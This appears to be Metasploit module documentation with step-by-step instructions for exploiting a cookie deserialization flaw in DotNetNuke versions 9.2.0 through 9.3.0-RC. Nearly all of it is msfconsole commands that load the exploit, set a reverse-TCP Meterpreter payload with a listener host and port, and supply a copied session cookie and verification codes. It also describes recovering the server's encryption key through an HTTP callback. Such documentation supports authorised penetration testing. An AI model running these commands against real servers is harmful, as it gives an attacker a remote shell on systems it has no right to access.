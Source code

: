 ### v9.2.0 - v9.2.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer.
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <Verification Code>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```check```
  20. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  21. Do: ```exploit```
  22. **Verify** that you get a Meterpreter shell
  
### v9.2.2 - 9.3.0-RC
  In these versions, the `userId` value was changed to be a randomly generated GUID. This means that only the first part of the verification plaintext is known. By providing a list of several verification codes, it is possible to reduce the nubmer of potential encryption key values to a feasible amount. Once the list of encryption keys has been reduced, the module will test each key until an HTTP callback is received on port `8080` that indicates which key worked. Then, the final exploit payload will be encrypted using the recovered key and sent to the server, resulting in a shell.
  
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register several new user accounts and note the verification codes in the link in the registration emails
  5. Log in as the new user and navigate to the Edit Profile page.
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <full path to file containing verification codes>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}->```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```set TARGET 4```
  20. Do: ```check```
  21. **Verify** that you are seeing `The target appears to be vulnerable` in the console.
  22. Do: ```exploit```
  23. **Verify** that you get a Meterpreter shell 
